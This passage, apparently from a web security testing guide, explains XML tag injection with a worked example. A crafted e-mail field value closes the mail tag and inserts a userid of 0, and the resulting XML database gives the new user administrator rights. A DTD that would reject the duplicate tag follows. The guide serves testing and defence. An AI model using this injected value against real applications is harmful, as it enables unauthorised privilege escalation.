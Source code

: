 
#### Tag Injection

Once the first step is accomplished, the tester will have some information about the structure of the XML document. Then, it is possible to try to inject XML data and tags. We will show an example of how this can lead to a privilege escalation attack.


Let's considering the previous application. By inserting the following values:

```
Username: tony
Password: Un6R34kb!e
E-mail: s4tan@hell.com</mail><userid>0</userid><mail>s4tan@hell.com
```

the application will build a new node and append it to the XML database:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<users>
	<user>
		<username>gandalf</username>
		<password>!c3</password>
		<userid>0</userid>
		<mail>gandalf@middleearth.com</mail>
	</user>
	<user>
		<username>Stefan0</username>
		<password>w1s3c</password>
		<userid>500</userid>
		<mail>Stefan0@whysec.hmm</mail>
	</user>
	<user>
		<username>tony</username>
		<password>Un6R34kb!e</password>
		<userid>500</userid>
		<mail>s4tan@hell.com</mail><userid>0</userid><mail>s4tan@hell.com</mail>
	</user>
</users>
```


The resulting XML file is well formed. Furthermore, it is likely that, for the user tony, the value associated with the userid tag is the one appearing last, i.e., 0 (the admin ID). In other words, we have injected a user with administrative privileges.


The only problem is that the userid tag appears twice in the last user node. Often, XML documents are associated with a schema or a DTD and will be rejected if they don't comply with it.


Let's suppose that the XML document is specified by the following DTD:

```
<!DOCTYPE users [
	  <!ELEMENT users (user+) >
	  <!ELEMENT user (username,password,userid,mail+) >
	  <!ELEMENT username (#PCDATA) >
	  <!ELEMENT password (#PCDATA) >
	  <!ELEMENT userid (#PCDATA) >
	  <!ELEMENT mail (#PCDATA) >
]>
```
